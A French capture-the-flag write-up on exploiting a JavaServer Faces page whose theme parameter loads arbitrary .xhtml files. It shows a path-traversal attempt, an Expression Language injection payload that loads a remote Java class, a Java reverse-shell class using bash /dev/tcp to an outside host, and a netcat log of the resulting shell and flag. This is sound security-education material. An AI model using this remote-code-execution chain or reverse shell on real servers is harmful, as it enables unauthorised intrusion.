 # Write-up

Pour commencer le challenge, on se connecte à l'URL spécifiée. On peut y découvrir une page qui fait des conversions inutiles sur une chaîne de caractères spécifée par l'utilisateur. Le formulaire compte en plus une liste déroulante de thèmes que peut choisir l'utilisateur.

![](web_light.png)
![](web_dark.png)

Si l'on s'intéresse à la source de la page, on remarque le passage ci-dessous (nettoyé pour faciliter la lecture).

```html
<label for="theme">Theme</label>
<select id="theme">
	<option value="light.xhtml">Light</option>
	<option value="dark.xhtml">Dark</option>
</select>
```

On constate que les thèmes sont en fait directement un chemin vers un fichier `.xhtml` envoyé en paramètre d'une requête `POST`. On peut dans un premier temps essayer des chemins classiques, comme `../../../../../passwd`.

![](web_edit.png)
![](web_error.png)

Visiblement cela ne fonctionne pas. Tant pis, cherchons autre chose. Une deuxième idée est d'essayer avec des URLs distantes, et en se renseignant un peu sur les *JavaServer Faces* on peut venir essayer le bout de code ci-dessous. Ce dernier fait intervenir un langage appelé EL, pour *Expression Language*, qui va interpréter le "code" situé entre `${...}`.

```xml
<ui:composition
        xmlns="http://www.w3.org/1999/xhtml"
        xmlns:f="http://java.sun.com/jsf/core"
        xmlns:h="http://java.sun.com/jsf/html"
        xmlns:ui="http://java.sun.com/jsf/facelets">
    <h:inputText id="a" value='${1+2+3+4+5}'/>
</ui:composition>
```

![](web_el.png)

Nous obtenons un nouveau champ, dont le contenu est le résultat de l'interprétation de `1+2+3+4+5`. Ce type de fonctionnalités est évidemment très dangereux, et a été exploité à de nombreuses reprises.

On adaptant le code donné dans [cet article](http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/) à notre environnement, nous pouvons faire arriver à faire exécuter n'importe quel code Java à notre serveur Web. Une des idées est alors d'écrire un *reverse shell*.

```xml
<ui:composition
        xmlns="http://www.w3.org/1999/xhtml"
        xmlns:f="http://java.sun.com/jsf/core"
        xmlns:h="http://java.sun.com/jsf/html"
        xmlns:ui="http://java.sun.com/jsf/facelets">
    <h:inputText id="a" value='${session.getServletContext().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}'/>
    <h:inputText id="b" value='${session.getServletContext().getAttribute("arr").add(session.getServletContext().getResource("/").toURI().create("https://neat.sh/").toURL())}'/>
    <h:inputText id="c" value='${session.getServletContext().getClass().getClassLoader().getParent().newInstance(session.getServletContext().getAttribute("arr").toArray(session.getServletContext().getClass().getClassLoader().getParent().getURLs())).loadClass("ReverseShell").newInstance()}'/>
</ui:composition>
```

```java
public class ReverseShell {
    private static final String HOST = "neat.sh";
    private static final String PORT = "12345";

    public ReverseShell() {
        try {
            Runtime r = Runtime.getRuntime();
            PrintWriter pw = new PrintWriter("/tmp/shell.sh", "UTF-8");
            pw.println("/bin/bash -i >& /dev/tcp/" + HOST + "/" + PORT + " 0>&1");
            pw.close();

            File f = new File("/tmp/shell.sh");
            f.deleteOnExit();
            f.setExecutable(true, false);
            f.setReadable(true, false);
            f.setWritable(true, false);

            Process p = r.exec("/bin/bash /tmp/shell.sh");
            p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```

Il faut au préalable mettre les deux fichiers `sploit.xml` et le fichier `ReverseShell.class` sur notre serveur Web distant, puis lancer un `netcat` en écoute sur le port 12345. Lors de l'envoi de la requête, nous constatons.

```bash
root@ns3289197:~# nc -vvl -p 12345
listening on [any] 12345 ...
Warning: forward host lookup failed for 37-161-6-219.coucou-networks.fr: Unknown host
connect to [5.135.180.92] from 37-161-6-219.coucou-networks.fr [37.161.6.219] 2089
bash: cannot set terminal process group (26): Inappropriate ioctl for device
bash: no job control in this shell
tomcat7@2ab41e9a74dc:/var/lib/tomcat7$ cat /home/tomcat7/flag.txt
cat /home/tomcat7/flag.txt
THC{java_reflection_api_wizard}
tomcat7@2ab41e9a74dc:/var/lib/tomcat7$
```

